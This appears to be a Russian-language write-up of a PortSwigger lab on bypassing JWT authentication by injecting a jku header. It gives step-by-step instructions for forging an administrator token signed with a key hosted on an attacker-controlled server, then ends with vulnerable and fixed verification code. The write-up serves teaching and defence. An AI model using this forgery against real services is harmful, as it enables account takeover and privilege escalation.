









## Lab: JWT authentication bypass via jku header injection

**Платформа:** PortSwigger Web Security Academy  
**Категория:** JWT (JSON Web Token)  
**Сложность:** Practitioner  
**Дата:** 2026-08-16

---

## TL;DR

Приложение использует JWT для аутентификации и поддерживает заголовок
`jku` (JWK Set URL), указывающий, откуда сервер должен скачать набор
публичных ключей для проверки подписи. Сервер не проверяет,
принадлежит ли указанный URL доверенному домену.

Разместив собственный JWKS-файл с публичным ключом на подконтрольном
сервере (Exploit Server) и указав на него в заголовке `jku`,
подписанном соответствующим приватным ключом, удалось подменить
пользователя на administrator, получить доступ к `/admin` и удалить
пользователя carlos.

---

## Описание уязвимости

JWT с алгоритмом RS256 подписывается приватным ключом. Для проверки
подписи сервер использует публичный ключ, который в норме должен
браться из заранее известного, доверенного источника.

Заголовок `jku` позволяет указать прямо в токене **URL**, откуда
сервер должен скачать JWKS (набор публичных ключей) для этой
проверки.

```
JWT = Header.Payload.Signature

Header содержит:
  "jku": "https://attacker-controlled/jwks.json"

Signature = RSA_Sign(
    Header.Payload,
    private_key   (атакующего)
)
```

Если сервер не ограничивает `jku` allowlist'ом доверенных доменов,
он скачает JWKS с **любого** URL, который укажет атакующий —
включая его собственный сервер.

```
Получили JWT с заголовком jku
        │
        ▼
Сервер идёт по URL из jku
        │
        ▼
Скачивает JWKS (набор ключей)
        │
        ▼
Ищет ключ по kid из заголовка токена
        │
        ▼
Проверяет подпись найденным ключом
        │
        ▼
Подписи совпали?
        │
   Да ──┴── Нет
   │          │
JWT принят   401
```

Поскольку и JWKS-файл, и подпись токена контролирует атакующий —
проверка снова превращается в формальность: сервер проверяет подпись
ключом, который сам атакующий заранее подготовил под неё.

---

## Разведка

### Шаг 1 — Получение JWT

Вошла в приложение под пользователем:

```
wiener:peter
```

Перехватила запрос к своему аккаунту.

```http
GET /my-account HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=<JWT>
```

В качестве значения cookie использовался JWT.


### Шаг 2 — Анализ заголовка токена

Декодировала JWT и увидела в заголовке:

```json
{
  "kid": "ca98d92b-6d44-4c61-9d5d-6709c783b705",
  "typ": "JWT",
  "alg": "RS256"
}
```

Алгоритм асимметричный (RS256), заголовок `jwk` отсутствует —
но приложение поддерживает `jku`, значит можно попробовать
подсунуть ссылку на собственный набор ключей вместо встраивания
ключа напрямую в токен.


### Шаг 3 — Проверка доступа к панели администратора

Изменила путь запроса:

```http
GET /admin HTTP/2
Cookie: session=<JWT>
```

Сервер ответил отказом в доступе,
так как токен принадлежал пользователю wiener.


---

## Эксплуатация

### Шаг 4 — Генерация собственной пары RSA-ключей

В Burp Suite открыла JWT Editor Keys → **New RSA Key**.

Параметры генерации:

```
Key Size: 2048
ID: оставлен автогенерированный UUID (ca98d92b-6d44-4c61-9d5d-6709c783b705)
```



### Шаг 5 — Формирование JWKS с публичной частью ключа

Скопировала **только публичную часть** ключа (без `d`, `p`, `q`,
`dp`, `dq`, `qi`) и обернула её в структуру JWKS:

```json
{
  "keys": [
    {
      "kty": "RSA",
      "e": "AQAB",
      "kid": "ca98d92b-6d44-4c61-9d5d-6709c783b705",
      "n": "mSeF4q1Nv26HbIX82XRtNqS27GBvhr6uvEYQkSsebTxlqyalMNJCO0sJYXtdw_rDA_o-s8iHSlunlq6WFqFA2VrLlJ9QtINHoOqQr02ZTs-O3CjzV6AWGISZgCKXrbH70AxNDi-xP48RbJ8cDH1bPrAr3V-nlZY9L5gorXEwN82qeqkGj_oL3c4Y7dW1n3EqR6CmLzTiVcueTejcbJVZlISJhY0gLz8QzVIzsfzu7dlKTHJJr6JK_RJdj0ROIDsHm2c-uNkLfL7LOVuHbVLJteJH9G9zG2ps7lihJSX9yDAXVnLJ2TYwCTwBu3PcVKzWCreH53h_XqLI0cWT_y33uQ"
    }
  ]
}
```

Поле `kid` совпадает с `kid` в заголовке будущего поддельного
токена — это важно, чтобы сервер нашёл нужный ключ внутри JWKS.


### Шаг 6 — Размещение JWKS на Exploit Server

Открыла Exploit Server лабы:

```
Body: <JSON из шага 5>
File: /exploit
Content-Type: application/json
```

Нажала **Store** — файл стал доступен по адресу:

```
https://exploit-0a8300a2046a50d181abd407013b0089.exploit-server.net/exploit
```



### Шаг 7 — Подмена payload и заголовка токена

Открыла перехваченный запрос к `/my-account` во вкладке
**JSON Web Token**.

Изменила claim в payload:

```json
{
  "sub": "administrator"
}
```

В заголовке добавила поле `jku`, указывающее на файл на
Exploit Server:

```json
{
  "kid": "ca98d92b-6d44-4c61-9d5d-6709c783b705",
  "typ": "JWT",
  "alg": "RS256",
  "jku": "https://exploit-0a8300a2046a50d181abd407013b0089.exploit-server.net/exploit"
}
```



### Шаг 8 — Подпись токена

Внизу вкладки JSON Web Token нажала **Sign**, выбрала
сгенерированный на шаге 4 RSA-ключ. Приватная часть ключа осталась
локально в Burp и на сервер не передавалась — на Exploit Server
был выложен только публичный ключ.

### Шаг 9 — Получение панели администратора

Отправила запрос с новым токеном:

```
GET /admin HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=<токен с jku>
```

Сервер прочитал `jku` из заголовка, скачал JWKS с Exploit Server
(не проверяя, доверенный ли это домен), нашёл в наборе ключ
по `kid`, проверил подпись — она совпала, так как ключ и подпись
принадлежат одной паре, сгенерированной атакующим. Токен принят,
доступ к панели администратора получен.


### Шаг 10 — Удаление пользователя

Из HTML страницы получила ссылку:

```
GET /admin/delete?username=carlos
```

Отправила запрос.

Пользователь был удалён,
лабораторная работа успешно решена.


---

## Итог

```
JWT пользователя wiener
        │
        ▼
Генерация собственной RSA-пары
        │
        ▼
Формирование JWKS только с публичным ключом
        │
        ▼
Размещение JWKS на Exploit Server
        │
        ▼
Изменение claim sub -> administrator
        │
        ▼
Добавление jku в заголовок токена
        │
        ▼
Подпись токена своим приватным ключом
        │
        ▼
GET /admin
(сервер скачивает JWKS по jku и доверяет ему)
        │
        ▼
Доступ администратора
        │
        ▼
Удаление пользователя carlos
```

### Почему разработчики делают такую ошибку

Поддержка `jku` задумывалась для сценариев ротации ключей и
интеграции с внешними системами (SSO, федерация), но при этом
разработчики не ограничивают, с каких именно доменов разрешено
скачивать JWKS. В результате сервер доверяет любому URL,
который пришёл в самом токене — то есть источнику, который
целиком контролирует клиент (потенциальный атакующий).

```
Гибкость для внешней ротации ключей
→ разработчик разрешает произвольный jku "для удобства"

Отсутствие allowlist доменов для jku
→ сервер скачивает JWKS с любого хоста

Смешение "структурной валидности" токена
с "доверенностью" источника ключа
→ подпись валидна, но JWKS — подставной, с чужого сервера
```

### Где встречается в реальности

```
Микросервисная архитектура
→ сервисы динамически принимают jku от других сервисов без allowlist

SSO и федеративные системы
→ поддержка произвольных внешних JWKS-эндпоинтов для "гибкой" интеграции

SSRF как побочный эффект
→ jku без ограничений позволяет заставить сервер обратиться
  на внутренний адрес, а не только на сервер атакующего
```

Во всех этих случаях отсутствие строгой привязки к доверенному
домену для `jku` позволяет атакующему подделывать токены,
эскалировать привилегии, а в некоторых случаях — использовать
`jku` как вектор SSRF на внутреннюю инфраструктуру.

---

## Защита

```python
# УЯЗВИМО
# Сервер скачивает JWKS с любого URL, указанного в заголовке jku
header = jwt.get_unverified_header(token)
jwks = requests.get(header["jku"]).json()   # URL от атакующего
public_key = find_key_by_kid(jwks, header["kid"])
jwt.decode(token, public_key, algorithms=["RS256"])
```

```python
# БЕЗОПАСНО
# jku полностью игнорируется. JWKS берётся только
# из заранее известного, доверенного эндпоинта
TRUSTED_JWKS_URL = "https://auth.internal.example.com/.well-known/jwks.json"

jwks = requests.get(TRUSTED_JWKS_URL).json()
public_key = find_key_by_kid(jwks, header["kid"])

jwt.decode(
    token,
    public_key,
    algorithms=["RS256"],  # алгоритм жёстко задан, не берётся из токена
)
```

Дополнительно:

- никогда не брать URL для загрузки JWKS из самого токена (`jku`);
- если динамическая загрузка JWKS необходима — ограничивать её
  строгим allowlist доверенных доменов на стороне сервера;
- явно задавать ожидаемый алгоритм подписи, не полагаясь на `alg`
  из заголовка токена;
- валидировать `kid` по whitelist известных ключей;
- ограничивать сетевой доступ сервера при обработке `jku`, чтобы
  исключить SSRF на внутренние адреса (даже если allowlist домена
  случайно окажется недостаточно строгим).
